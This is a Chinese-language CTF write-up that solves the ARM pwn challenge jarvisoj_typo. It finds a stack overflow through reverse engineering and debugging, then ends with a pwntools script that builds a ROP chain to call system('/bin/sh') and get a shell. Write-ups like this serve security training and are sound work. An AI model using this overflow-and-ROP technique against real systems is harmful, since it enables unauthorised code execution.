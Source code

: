 <font face=汉仪唐美人>上一篇文章中笔者对ARM架构的寄存器和指令集做了简单的介绍，本文就来首杀ARM pwn题。</font>

# <font size=6, face=汉仪唐美人>**buuoj 第139题 jarvisoj_typo**</font>

<font face=汉仪唐美人>这一题是静态编译的程序，对于ARM可执行文件，在x86架构的虚拟机上可以使用``qemu-arm ...``来执行。</font>

<font face=汉仪唐美人>我们首先来执行看一下这个程序有什么输出。</font>

![](https://img-blog.csdnimg.cn/e72c9ff3e6af490fb3e9fb5bf85b2243.png)

<font face=汉仪唐美人>在程序一开始输出了一段字符串，我们可以在IDA中用Shift+F12来查看elf文件中所有硬编码的字符串：</font>

![](https://img-blog.csdnimg.cn/e996f980ef9941099fbbc372fc7f5200.png)

<font face=汉仪唐美人>然后根据交叉引用找到该字符串被引用的位置：</font>

![](https://img-blog.csdnimg.cn/7dd8665411a44b65bdaaabdb115b85f9.png)

<font face=汉仪唐美人>根据程序的输入，我们可以猜测出其中一部分库函数，如这里的write、getchar等。看上去这是一个正常的输入程序，一个typing test，如果输入的内容和程序输出相同就会继续输出一个单词等待用户输入，否则输出error。</font>

![](https://img-blog.csdnimg.cn/f8ca296275374151a59ee4f3e6e18e53.png)

<font face=汉仪唐美人>这里可以推测``sub_8D24``是关键输入函数。</font>

![](https://img-blog.csdnimg.cn/cfd778369edd4f21acb4674afbdfeffb.png)

<font face=汉仪唐美人>这里的input应该就是输入的缓冲区，我们需要进行调试确定到底是哪一步执行了读取用户输入的操作：qemu-arm后加-g选项指定端口，就可以通过``gdb-multiarch``进行调试。经过调试发现上图中的``read``函数就是读取的函数，且最大读取大小为512字节，这明显就造成了栈溢出。</font>

![](https://img-blog.csdnimg.cn/bcfa376ecf864b53bb35c6aff0a411bf.png)

<font face=汉仪唐美人>从上图可知，覆盖返回地址需要先输入0x70字节。在elf文件中可以发现字符串``/bin/sh``:</font>

![](https://img-blog.csdnimg.cn/c1cd7531800d4bbeb88e75c98d414543.png)

<font face=汉仪唐美人>引用字符串``/bin/sh``的函数就是``system``函数。因此我们可以找到``system``函数的地址为0x10BA8。需要注意ARM架构函数的调用约定：<font color=red>前4个参数保存在R0~R3，之后的参数从右至左压栈。因此要想执行``system("/bin/sh")``，就需要将寄存器R0的值修改为字符串``'/bin/sh'``的地址，返回地址可以通过栈溢出直接修改。考虑到这是一个静态编译的文件，很容易就可以想到使用一个简单的ROP来实现寄存器修改操作。<font></font>

![](https://img-blog.csdnimg.cn/378e8f9963554d3d830236b7a57e83b2.png)

<font face=汉仪唐美人>找到合适的ROP地址为0x20904，可以在修改寄存器R0的值之后修改PC的值。现在可以编写exp了。</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'

io = process(['qemu-arm-static', './typo'])
io.sendafter(b'quit\n', b'\n')
io.send(cyclic(0x70) + p32(0x20904) + p32(0x6c384) + p32(0) + p32(0x10ba8))

io.interactive()
```

![](https://img-blog.csdnimg.cn/67fef56492dc496c840ced2ad8631fda.png)

<font face=汉仪唐美人>成功getshell。这题看来不难，只是一个简单的不能再简单的ROP。</font>
